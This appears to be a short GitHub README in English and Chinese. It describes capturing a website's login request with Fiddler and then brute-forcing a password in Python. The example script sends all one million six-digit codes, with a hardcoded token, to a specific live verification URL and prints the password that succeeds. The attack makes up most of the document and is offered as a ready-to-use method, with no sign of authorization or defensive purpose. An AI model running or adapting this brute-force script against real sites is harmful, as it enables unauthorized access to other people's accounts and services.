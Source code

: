 # Main Steps
* Using Fiddler to capture the URL and th post pasckage when user logging in (Using whatever account names and passwords).
    <p align="center" >
        <img src="./pictures/url.png", width='800'>
    </p>
    <p align="center" >
        <img src="./pictures/fiddler.png", width='800'>
    </p>
* In python, fill the data in a form of the dictionary.
* Post the request

# Reference
* [Two ways to post requests using python.](https://blog.csdn.net/qq_29113041/article/details/79084544)  
* [python 暴力破解密码脚本](https://www.cnblogs.com/cocoajin/p/3991227.html)
* [输入密码经过本地加密怎么办？](https://zhuanlan.zhihu.com/p/57375111)

# Example Code
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib.request

def tryLogin(pwd):

    data = {
        '_token':'tLjSpPwe8E8XtGHuKbDHCwwu1T28l6P7',
        'password': pwd
    }

    r = urllib.request.urlopen(
            url ='http://1003.ykzm.sxehny.cn/verify/1003',
            data = urllib.parse.urlencode(data).encode(encoding='UTF8')
    )
    
    response = str(r.read(), encoding = "utf-8")
    isFind = False
    if "false" in response: # 这里是对应网站的密码验证逻辑
        print('登陆失败',pwd)
        isFind = False
    else:
        print('登陆成功','password = ',pwd)
        isFind = True   
    return isFind 


# 暴力破解
for i in range(1000000):
    input = str(i).zfill(6)
    tryLogin(input)
```